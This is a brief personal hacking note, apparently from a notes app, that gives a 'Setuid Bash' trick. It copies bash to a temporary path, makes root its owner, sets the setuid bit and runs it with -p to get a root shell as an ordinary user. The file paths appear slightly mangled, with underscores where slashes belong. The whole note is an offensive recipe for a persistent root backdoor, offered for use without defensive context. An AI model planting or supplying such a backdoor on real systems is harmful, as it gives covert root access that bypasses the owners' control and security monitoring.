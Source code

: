is:: [[note]]
from:: [[hacking]]

# Notes
Tricks with bash shell for hacking

## Setuid Bash
Create a copy of bash that always runs as root
```
cp _bin_bash _tmp_foobash
chown root:root _tmp_foobash
chmod 4755 _tmp_foobash
_tmp_foobash -p (as user)
```
